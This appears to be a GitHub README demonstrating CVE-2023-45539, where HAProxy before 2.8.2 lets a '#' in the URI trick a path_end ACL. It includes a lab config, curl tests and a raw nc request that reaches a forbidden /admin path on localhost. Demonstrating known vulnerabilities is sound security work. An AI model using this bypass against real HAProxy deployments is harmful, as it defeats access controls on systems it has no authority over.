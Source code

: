 # HAProxy-CVE-2023-45539-PoC

HAProxy before 2.8.2 accepts # as part of the URI component, which might allow remote attackers to obtain sensitive information or have unspecified other impact upon misinterpretation of a path_end rule, such as routing index.html#.png to a static server.

What gets misrouted in this CVE isn't any extension that the backend app "supports" — it's only the ones that HAProxy itself is configured to route using path_end (or regex) ACLs.

```bash
acl is_static path_end .png .jpg .gif .css .js
use_backend be_static if is_static
```
That means:

HAProxy doesn’t care whether the backend can actually serve .png, .js, etc.

It only looks at the suffix match in the request path.

If the suffix matches one of those strings, it routes to be_static.

So:

/admin#.png → matches .png → goes to be_static → bypass 

/admin#.asc → doesn’t match → stays in be_app → hits deny → 403 


```bash
curl -i http://localhost:6655/public                                               
HTTP/1.1 200 OK
content-length: 7
content-type: text/plain

APP OK
```
                                                                                                                               
```bash
curl -i http://localhost:6655/admin 
HTTP/1.1 403 Forbidden
content-length: 93
cache-control: no-cache
content-type: text/html

<html><body><h1>403 Forbidden</h1>
Request forbidden by administrative rules.
</body></html>
```

## Bypass

```bash
printf 'GET /admin#.png HTTP/1.1\r\nHost: localhost\r\n\r\n' | nc -q1 127.0.0.1 6655
HTTP/1.1 200 OK
content-length: 31
content-type: text/plain

STATIC OK (routed by path_end)
```


